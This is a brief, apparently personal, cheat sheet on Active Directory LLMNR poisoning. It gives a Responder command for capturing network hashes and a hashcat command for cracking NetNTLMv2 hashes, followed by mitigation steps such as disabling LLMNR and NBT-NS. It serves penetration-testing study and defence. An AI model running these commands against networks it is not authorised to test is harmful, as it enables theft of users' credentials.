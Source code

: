 # AD Initial attack vector

## LLMNR poisoning

```
sudo responder -I <interface> -dwPv
# crack hash
hashcat -m 5600 <hash.txt> <wordlist>
```

### Mitigation

```
# Disable LLMNR
# Disable NBT-NS


#If we can't disable
# Require network access control
# Require strong password policy
```
